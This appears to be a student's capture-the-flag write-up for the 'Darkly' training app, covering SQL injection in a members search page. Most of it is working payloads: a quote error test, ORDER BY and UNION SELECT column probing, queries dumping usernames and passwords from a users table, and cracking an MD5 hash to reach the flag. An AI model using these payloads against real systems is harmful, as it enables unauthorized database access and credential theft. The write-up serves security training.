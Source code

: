 # 🧑‍🤝‍🧑 SQL Injection – Members Search – MEMO

## 📌 Breach Summary
The members search functionality in the Darkly application is vulnerable to **SQL Injection**. User input in the search field is directly used in SQL queries without sanitization, allowing attackers to manipulate the query and access or modify database content.

---

## ✅ Step-by-Step Exploitation

### 1. 🔍 Locate the Members Search Page
Navigate to:
```text
http://<target-ip>/index.php?page=member
```
You’ll see a form to search for registered members by name or ID.

### 2. 💉 Test for SQL Injection
In the search field, input:
```sql
'
```
If a SQL syntax error appears, the field is injectable.

### 3. 🛠️ Exploit the Injection
To dump data or bypass filters, use:
```sql
' OR '1'='1
```
or
```sql
' UNION SELECT 1,2,3,4--
```

Try finding the number of columns:
```sql
' ORDER BY 4--
```

You can also try:
```sql
' UNION SELECT null, username, password, null FROM users--
```

### 4. ✅ Retrieve the Flag
- Finally try this one:
```sql
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
Get the last one (5th)

use the site https://md5decrypt.net/en/ to decript the key.
We'll get "FortyTwo" as a result of the decription.
We lower the letter of the string to 'fortytwo'.
Then we use sha256 tools (e.g. https://emn178.github.io/online-tools/sha256.html) to find the flag.
---

## 💬 What to Say During Evaluation

- Explain that SQL Injection happens when user input is not sanitized before query execution.
- Discuss common payloads and how you used them to manipulate query logic.
- Show the result, explain your steps, and highlight the vulnerable code behavior.

---

## 📚 References

- OWASP A1: Injection
- SQL Injection Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
- Tools used: browser, manual payload injection

✅ Be ready to reproduce each step live and explain the mechanics of the SQL injection.